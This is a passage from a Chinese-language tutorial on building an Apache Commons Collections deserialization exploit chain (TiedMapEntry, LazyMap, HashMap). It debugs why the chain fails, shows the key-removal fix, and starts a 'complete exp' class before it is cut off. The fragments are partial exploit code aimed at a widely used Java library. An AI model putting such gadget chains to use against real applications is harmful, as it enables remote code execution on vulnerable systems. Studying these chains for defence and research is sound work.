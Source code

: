 ```bash
        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"zxh");//LazyMap.get()这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可

        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发hash()
        serialize(m2);
        //序列化过程结束

        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,cha);

    }
```

但是这样还是执行不成功

来看下一步原因，问题出现再 LazyMap 类下的 get 方法

[![](assets/1700127979-d08bc04bc4b65f22c5e278c6243e0b8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155132-f55c9d1a-8454-1.png)

当序列化的时候，我们是可以过 if 的，但是下面的红框中，又调用了一边 put 方法，这样就把我们的这个 key 写入到了 map 里面，当我们反序列化的时候，同样的过程同样的 key，又要在序列化的时候 put 将这个 key 写入了 map，所以 map.containsKey(key) 就为 ture 了，就过不了 if 了

解决这个问题的方法很简单，删了这个 key 不久完了吗

```bash
LazyMap.remove("lky");
```

我们在要序列化过程走完之后删除这个参数就行了

### 完整 exp

```bash
package org.example;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
```